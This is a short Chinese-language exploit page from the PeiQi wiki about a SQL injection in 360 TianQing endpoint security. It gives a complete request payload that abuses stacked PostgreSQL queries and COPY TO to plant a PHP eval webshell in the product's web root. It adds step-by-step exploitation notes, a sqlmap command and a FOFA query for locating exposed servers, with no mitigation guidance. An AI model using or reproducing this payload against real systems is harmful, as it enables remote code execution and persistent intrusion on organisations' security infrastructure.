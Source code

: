 ```yaml
---
title: 天擎 前台SQL注入
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - 天擎
---
```


# 天擎 前台SQL注入

## 漏洞描述

天擎 存在SQL注入,攻击者可以通过漏洞上传木马

## 漏洞影响

> [!NOTE]
>
> 天擎

## FOFA

> [!NOTE]
> title="360新天擎"

## 漏洞复现

```
注入写shell:
https://192.168.24.196:8443/api/dp/rptsvcsyncpoint?ccid=1';create table O(T TEXT);insert into O(T) values('<?php @eval($_POST[1]);?>');copy O(T) to 'C:\Program Files (x86)\360\skylar6\www\1.php';drop table O;--  


利用过程:
1. 通过安装包安装的一般都有root权限，因此该注入点可尝试写shell
2. 通过注入点，创建一张表 O
3. 为 表O 添加一个新字段 T 并且写入shell内容
4. Postgres数据库 使用COPY TO把一个表的所有内容都拷贝到一个文件(完成写shell)
5. 删除 表O
```

使用命令

```
sqlmap -u https://xxx.xxx.xxx.xxx:8443/api/dp/rptsvcsyncpoint?ccid=1 --dbms PostgreSQL
```

![](/img/20210924015121200482.png)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> 360 TianQing ccid SQL injectable

![](/img/20210924015121422949.png)